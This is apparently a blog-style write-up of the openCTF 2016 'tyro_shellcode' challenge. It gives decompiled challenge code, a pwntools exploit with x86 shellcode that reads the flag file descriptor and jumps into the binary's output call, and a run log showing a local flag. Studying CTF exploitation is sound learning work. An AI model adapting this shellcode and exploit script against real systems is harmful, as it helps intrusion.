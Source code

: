 ```yaml
---
layout: post
title: openCTF 2016 - tyro_shellcode
category: [Exploitation]
tags: [Exploitation, openCTF]
comments: true
---
```


**Points:** 50
**Solves:** 
**Category:** Exploitation
**Description:** Baby's first shellcode problem.
Server: 172.31.1.43:1617
Binary: 172.31.0.10/tyro_shellcode1_84536cf714f0c7cc4786bb226f3a866c

> [tyro_shellcode]({{site.url}}/assets/tyro_shellcode1_84536cf714f0c7cc4786bb226f3a866c)

Baby shellcode, basically we get a file descriptor to the open flag file and we need to write shellcode to read from it and write it to stdout.

{% highlight C %}
int main() {
    flagFileDesc = open("/home/challenge/flag", 0x0);
    setbuf(STDIN, 0x0);
    setbuf(STDOUT, 0x0);
    alarm(30);
    
    mmap_addr = mmap(0x0, 0x80, 0x7, 0x22, 0xffffffff, 0x0);
    memset(mmap_addr, 0xc3, 127);
    memset(localBuffer, 0x0, 127);
    
    puts("OpenCTF tyro shellcode challenge.\n");
    puts("Write me some shellcode that reads from the file_descriptor");
    puts("I supply and writes it to the buffer that I supply");
    printf("%d ... 0x%08x\n", "I supply and writes it to the buffer that I supply", flagFileDesc, mmap_addr);

    read(0x0, mmap_addr, 0x20);

    ret = mmap_addr();

    puts(localBuffer);

    edx = canary ^ *0x14;
    COND = edx == 0x0;
    if (!COND) {
            eax = __stack_chk_fail();
    }
    return ret;
}

{% endhighlight %}

# Solution

In my exploit I decided to be lazy again and used a static file descriptor 3 and a static bss address as read buffer. After that I decided instead of executing a write syscall to just return in one of the `puts` calls in `main` with the bss buffer as argument.

{% highlight python %}
#!/usr/bin/env python

from pwn import *
import sys

def sh():
  s = '''xor eax, eax
        xor ebx, ebx
        mov bl, 3
        mov ecx, 0x804a140
        mov al, 3
        mov dl, 0xff
        int 0x80
        push 0x804a140
        push 0x8048728
        ret
        '''

  return asm(s)

def exploit(r):
  r.recvuntil(' ... ')
  addr = int(r.recv(10), 16)
  log.info("Addr is at: " + hex(addr))

  r.send(sh())
  r.interactive()



if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['/vagrant/openCTF/tyro_shellcode1_84536cf714f0c7cc4786bb226f3a866c'])
        print util.proc.pidof(r)
        pause()
        exploit(r)
{% endhighlight %}

For those more interested in the shellcode, the last 2 lines `push 0x8048728, ret` is basically equal `jmp 0x8048728` which is the address of printf in `main`.

{% highlight text %}
➜  openCTF python ./shellcode.py
[*] For remote: ./shellcode.py HOST PORT
[+] Starting program '/vagrant/openCTF/tyro_shellcode1_84536cf714f0c7cc4786bb226f3a866c': Done
[2207]
[*] Paused (press any to continue)
[*] Addr is at: 0xffb7ff4c
[*] Switching to interactive mode

flagflagflag=====FLAGFLAG    <--- fake local flag
$
{% endhighlight %}